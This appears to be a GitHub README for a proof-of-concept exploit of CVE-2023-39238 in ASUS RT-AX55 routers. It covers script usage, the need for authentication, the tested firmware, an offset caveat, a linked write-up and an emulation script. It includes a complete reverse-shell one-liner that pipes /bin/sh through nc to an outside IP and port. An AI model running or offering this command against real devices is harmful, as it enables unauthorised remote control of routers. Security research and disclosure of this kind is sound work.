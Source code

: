 # CVE-2023-39238

## Exploit

```
usage: exploit.py [-h] --url URL --credentials CREDENTIALS --cmd CMD
```

The exploit requires authentication.
Read the [full blogpost](https://www.shielder.com/blog/2024/01/hunting-for-~~un~~authenticated-n-days-in-asus-routers/).

The code was tested against the following firmware version:
- ASUS RT-AX55 Firmware version 3.0.0.4.386.51598

Different firmwares/daemons could have a different offset for the `SystemCmd` global variable, fix the script accordingly. 

The PoC script execute commands and reports their output using other authenticated endpoints.
However a reverse shell can be obtained by executing the following: `rm -f /tmp/f; mknod /tmp/f p; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.42.102.133 7777 > /tmp/f`

## Emulator

Qiling>=1.4.7 is required.

```
usage: emulate.py
```